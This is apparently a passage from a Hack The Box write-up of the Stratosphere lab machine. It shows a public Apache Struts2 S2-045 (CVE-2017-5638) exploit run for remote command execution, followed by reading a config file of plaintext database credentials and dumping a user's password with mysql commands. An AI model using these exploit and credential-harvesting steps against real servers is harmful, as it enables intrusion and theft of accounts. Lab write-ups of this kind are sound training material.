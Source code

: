 You can use this command example for the original script:
```bash
$ python 41570.py http://10.10.10.64/Monitoring/example/Login_input.action 'ls -l'
```

I'll work with the modified script:
```bash
root@caretaker# python 41570.py http://10.10.10.64/Monitoring/example/Login_input.action
[*] CVE: 2017-5638 - Apache Struts2 S2-045
$ id
uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

$ ls -la
total 24
drwxr-xr-x  5 root    root    4096 Aug  4 05:36 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Aug  4 05:36 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8
```

This [script](https://0xdf.gitlab.io/2018/09/01/htb-stratosphere.html#building-a-shell) by Ippsec and 0xdf makes a legit stabilized shell.

# MySQL Database dump

I saw that `db_connect` above, listing the contents:
```bash
$ cat db_connect
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

I tried this password with username `richard` on SSH, I got from passwd file, didn't work.

```bash
$ mysql -ussn_admin -p"AWs64@on*&" -e "show privileges;"
Database
information_schema
ssn
$ mysql -uadmin -padmin -e "show databases;"
Database
information_schema
users
$ mysql -uadmin -padmin -e "use users;show tables;"
Tables_in_users
accounts
$ mysql -uadmin -padmin -e "use users;select * from accounts;"
fullName        password        username
Richard F. Smith        9tc*rhKuG5TyXvUJOrE^5CK7k       richard
```
